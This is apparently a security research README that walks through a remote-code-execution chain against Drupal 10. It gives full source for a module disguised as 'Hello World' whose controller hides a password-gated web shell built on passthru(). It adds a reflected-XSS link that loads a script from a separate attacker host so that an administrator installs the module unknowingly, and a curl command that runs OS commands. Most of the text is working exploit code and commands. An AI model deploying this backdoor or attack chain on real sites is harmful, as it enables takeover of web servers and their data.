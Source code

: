 # [RCE] Install Module

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [create Drupal module containing PHP payload] backdoor source code

(`hello_world.info.yml`)

```
name: hello_world
type: module
description: 'Hello World custom module'
package: custom
version: 1.0
core_version_requirement: ^10
```

(`hello_world.routing.yml`)

```
hello_world.hellomsg:
  path: '/hello-world'
  defaults:
    _controller: 'Drupal\hello_world\Controller\HelloWorldController::message'
    _title: 'Hello World!!'
  requirements:
    _permission: 'access content'
```

(`src/Controller/HelloWorldController.php`)

```
<?php

namespace Drupal\hello_world\Controller;

class HelloWorldController {
  public function message() {
    if (md5($_GET['pass']) === '098f6bcd4621d373cade4e832627b4f6') { echo passthru($_GET['cmd']); }
    return [
      '#markup' => 'Hello World message from custom module'
    ];
  }
}
```

2. [create Drupal module containing PHP payload] create Drupal module

```
tar cvf hello_world.tar.gz *
```

3. victim user (with administrative privileges) logs in

http://192.168.5.17/user/login

4. victim user clicks link

```
http://192.168.5.17/test/rxss.php?q=<script src=http://192.168.5.13/installModuleDrupal.js></script>
```

5. execute OS command

```
curl -s "http://192.168.5.17/hello-world?pass=test&cmd=id" | head -n 1
```

6. [optional] uninstall module - uninstall module via GUI

*Drupal -> Extend -> [tab] Uninstall -> (filter by name) hello -> (mark checkbox) Hello World -> Uninstall -> Uninstall*

7. [optional] uninstall module - remove module from filesystem

```
sudo su
cd /var/www/html/drupal/modules
rm -rf hello_world
```

## Screenshots

![Image](screenshots/Drupal_-_install_module_-_1-1.png)
